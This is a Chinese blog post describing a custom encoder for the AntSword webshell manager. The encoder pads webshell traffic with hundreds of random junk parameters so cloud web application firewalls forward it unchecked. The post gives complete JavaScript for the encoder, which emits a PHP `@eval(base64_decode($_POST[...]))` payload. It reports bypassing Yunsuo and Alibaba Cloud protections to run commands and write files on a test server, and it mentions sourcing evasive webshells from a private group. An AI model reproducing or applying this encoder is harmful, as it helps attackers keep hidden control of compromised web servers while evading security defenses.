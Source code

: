 # 蚁剑编码器之流量混淆


<meta name="referrer" content="no-referrer" />

## 前言

模块很早就写好了，今天才有时间把文章写出来

大家都知道填充垃圾数据可以用于SQL注入的绕过，原理就是WAF在遇到大量的GET或者POST参数的时候就会直接把数据直接抛给后端，从而就可以绕过各种各样恶心的过滤。

原因可能是WAF厂商考虑到防止自身程序对于流量分析时间过长，导致用户正常的业务无法访问，所以不得已直接丢给后端。因为咱也没看过WAF内部的规则是怎么写的，所以暂时这样猜想。

同样的，既然都是直接把数据抛给后端，那么这种办法是否可以用于一句话流量的绕过呢，答案当然是可以的，这也是今天写这篇文章的目的。

## 正文

### 具体实现

在其他例如菜刀，冰蝎这样的管理工具上很难实现，因为扩展性很差。但是强大的蚁剑就可以满足我们的需求。

本来是准备在shell配置信息里加个选项，但是经过考虑还要改蚁剑的结构，不是很方便，所以直接采用了编码器的形式。

这里全部采用了随机的方式来生成垃圾流量，随机变量名长度，随机变量值大小，随机变量个数。

```
let varname_min = 5; //变量名最小长度
  let varname_max = 15; // 变量名最大长度
  let data_min = 200; // 变量值最小长度
  let data_max = 250; // 变量值最大长度
  let num_min = 150; // 变量最小个数
  let num_max = 250; // 变量最大个数
  function randomString(length) { // 生成随机字符串
    //let chars='0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
    let chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
    let result = '';
    for (let i = length; i > 0; --i) result += chars[Math.floor(Math.random() * chars.length)];
    return result;
  }
  function randomInt(min, max) {   //生成指定范围内的随机数
    return parseInt(Math.random() * (max - min + 1) + min, 10);
  }
  for (let i = 0; i < randomInt(num_min, num_max); i++) {  //将混淆流量放入到payload数组中
    data[randomString(randomInt(varname_min, varname_max))] = randomString(randomInt(data_min, data_max));
  }
```

那么怎么用呢

很简单，就直接放到普通编码器里就可以了，这里以最基础的也是被各类WAF杀得妈都不认的base64编码器为例

```
'use strict';
/*
code by yzddMr6
*/
module.exports = (pwd, data, ext = {}) => {
  let varname_min = 5;
  let varname_max = 15;
  let data_min = 200;
  let data_max = 250;
  let num_min = 100;
  let num_max = 200;
  let randomID = `_0x${Math.random().toString(16).substr(2)}`;
  data[randomID] = Buffer.from(data['_']).toString('base64');
  function randomString(length) {
    //let chars='0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
    let chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
    let result = '';
    for (let i = length; i > 0; --i) result += chars[Math.floor(Math.random() * chars.length)];
    return result;
  }
  function randomInt(min, max) {
    return parseInt(Math.random() * (max - min + 1) + min, 10);
  }
  for (let i = 0; i < randomInt(num_min, num_max); i++) {
    data[randomString(randomInt(varname_min, varname_max))] = randomString(randomInt(data_min, data_max));
  }
  data[pwd] = `@eval(base64_decode($_POST[${randomID}]));`;
  delete data['_'];
  return data;
}
```

### 过云锁测试

本来想用安全狗，结果发现好像免费版不能拦截一句话。

那就用云锁开刀吧。

首先在虚拟机里放个一句话，就直接用星球里的。

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900369455-b57aa2d5-3b90-45f6-b9c4-c9cb1ed70914.png)

可以正常运行

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900369538-70a55a46-56a0-40b8-ac62-c252510baa44.png)

然后使用蚁剑默认的base64编码器连接试一下

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900369645-e9227333-70e6-41c2-8262-b785424db16a.png)

云锁直接drop了数据包，没有返回，在云锁控制端显示受到攻击

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900369742-44ebc878-ca46-4288-a3e2-2016b3168778.png)

然后使用我们上面的流量混淆编码器

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900369957-63746007-1497-449c-957d-2a70acb6a7c7.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900370077-6ec53d5d-14f0-4ad2-99f4-4f2928c239b6.png)

shell正常连接，成功bypass云锁。

### 过阿里云测试

这一部分是后来补上的，因为白嫖的阿里云还有一天就到期了。。。

众所周知阿里云是以封IP著名，一言不合就全网ban你，你不仅站日不了了，甚至很多其他网站都打不开。。。

反正要到期了，码也懒得打了。

首先用backdoor study搭建个环境

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900370185-1169c050-8aff-420a-bfbf-046b1475db12.png)

星球里面随便找一个免杀马放上去，星球里未公开的基本都是过阿里云的。

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900370469-02121aa6-fec3-4d43-b1ef-07b513039016.png)

然后随便找个蚁剑的默认编码器连上去，第一个包还有回显，发第二个包的时候就已经被封IP了

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900370710-726b5357-1ccb-4d30-a4c2-a6ad0fd90edc.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900370883-ad7bb739-001e-4afd-8eeb-2f25de9816da.png)

这时候换上加了参数污染后的编码器

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900371022-c6b8f105-7748-4583-9e7a-82cdf76586a5.png)

正常执行命令

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900371173-42b728fa-5d9e-4cb9-9f4d-2970b640dc43.png)

写文件测试

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900371623-42456d01-7a4d-4138-9cf0-51346b56d76e.png)

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900371745-db176d01-8198-41ff-a759-5edbb95d0133.png)

完全bypass

## 最后

理论上只要是这种云WAF都可以绕过，不管是sql注入也好还是一句话的流量也好，因为通病就是遇到超多处理不了的键值对就会直接扔给后端。

填充垃圾数据不仅仅可以用于php的编码器，所有类型的都可以用，只需要在原来的编码器基础上加上上面那几行神奇的代码，原理都是一样的。

虽然把参数个数改大虽然可以绕过各种waf，但是同样带来一个问题就是响应包会很慢，网络不好的情况下慎用。

若有收获，就点个赞吧

[毅宸]()

今天 11:26

0

0

上一篇

###### an-interesting-shell

下一篇

###### antsword-diy-1

回复

![毅宸](https://cdn.nlark.com/yuque/0/2020/png/1599908/1599487528935-avatar/e0d81bd9-3986-428a-949c-fed9156276b0.png?x-oss-process=image%2Fresize%2Cm_fill%2Cw_64%2Ch_64%2Fformat%2Cpng)

输入  `Ctrl` + `/`  快速插入卡片

 

图片

标签

引入

语雀内容

正文

正文标题 1标题 2标题 3标题 4









Ctrl+B粗体

回复

![语雀](https://gw.alipayobjects.com/mdn/prod_resou/afts/img/A*OwZWQ68zSTMAAAAAAAAAAABkARQnAQ)



[关于语雀]()[使用帮助]()[数据安全]()[服务协议]()[English](?language=en-us)
